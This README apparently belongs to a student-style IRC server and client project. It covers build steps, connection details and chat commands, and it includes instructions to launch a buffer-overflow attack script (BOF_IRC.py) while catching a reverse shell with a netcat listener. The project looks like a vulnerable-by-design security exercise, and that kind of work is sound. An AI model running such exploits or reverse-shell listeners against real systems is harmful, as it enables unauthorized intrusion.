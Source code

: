 # IRC

To compile :
```sh
cd ./src
chmod +x ./build.sh
./build.sh
```

To start the server :
```sh
cd ./buid
./irc_Server
```

To join as a client :
```sh
cd ./buid
./irc_Client <IP> <PORT>
```
ip = 10.0.0.30 and port = 6665

To perform the BOF attack from another machine :
```sh
python ./BOF_IRC.py
```
and
```sh
sudo nc -nlvp 666
```

### Commands :
Private message :
```
/msg nickname message
```
Change nickname :
```
/nick newNickname
```
Register nickname :
```
/msg NickServ REGISTER password email
```
Identify as a registered nickname :
```
/msg NickServ IDENTIFY nickname password email
```
